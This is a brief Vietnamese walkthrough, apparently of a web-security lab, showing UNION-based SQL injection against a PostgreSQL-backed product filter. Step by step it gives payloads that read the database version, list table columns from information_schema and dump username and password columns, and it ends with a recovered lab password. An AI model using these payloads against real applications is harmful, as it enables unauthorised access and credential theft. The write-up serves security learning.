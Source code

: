 Helu chào mừng trở lại mình là l3mh0cr3d

Nội dung của bài lab lần này sẽ là liệt kê mật khẩu mà khác chỗ là nó không phải oracle nha :))
 sau một hồi mò mẫm thì mình phát hiện ra nó là potgres mà mình vẫn hay nghịch 
                                        filter?category=Tech+gifts%27%20UNION%20SELECT%20NULL,version()--

         câu truy vấn này sẽ là :
                                        SELECT name, title FROM items WHERE categories = 'Tech+gifts' UNION SELECT NULL, version() -- 
![Alt text](image-7.png)
như này vậy là bắt tay vào dí thôi đầu tiên thì mình sẽ tìm tên của bảng trước
![Alt text](image-8.png) 
Woa nó đây rồi @@
![Alt text](image-9.png)
Mình nhận được kết quả như này và tìm được tên liên quan đến user là ![Alt text](image-10.png)
có vẻ khả nghi nên mình thử     
                                        ' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='ps_user'--
![Alt text](image-11.png)
 có vẻ như đã đi đúng hướng rồi
                                        ' UNION SELECT usename,passwd FROM ps_user -- WHERE table_name='ps_user'--

                                        filter?category=Tech+gifts%27%20UNION%20SELECT%20password_ycwcxx,username_npqknh%20FROM%20users_ybssen--
                                        sau một thời gian mò mẫm thì bạn có lệnh như trên lúc này sẽ trả ra
![Alt text](image-12.png)
password là 4dfsex1vfnz5itx4q7cr @@@
Authors: l3mh0cr3d chúc các bạn thành công